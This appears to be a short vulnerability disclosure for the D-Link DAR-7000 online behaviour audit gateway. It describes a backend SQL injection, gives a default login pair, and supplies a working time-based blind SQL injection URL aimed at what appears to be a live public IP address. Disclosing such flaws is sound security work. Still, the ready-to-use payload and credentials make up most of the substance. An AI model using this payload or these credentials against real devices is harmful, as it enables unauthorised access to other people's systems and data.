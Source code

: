 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official http://www.dlink.com.cn/

version:DAR-7000

See the login page.

https://60.22.74.195:8443/





<img width="648" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/612aba0f-6145-447f-bdfe-3d8d832dfa2f">









There is a default account password present： test/admin@123


<img width="644" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/81629f5d-ed48-4bf0-81cf-bb5473634ee2">





poc：

url: https://60.22.74.195:8443/log/webmailattach.php?attach1=&attach2=(null)&table_name=tb_admin+where+1=1+and+(select*from(select(sleep(3)))a)%23&mail_file_path=1，

<img width="649" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/a2433313-2325-4711-a0a7-b1c45d5633c8">
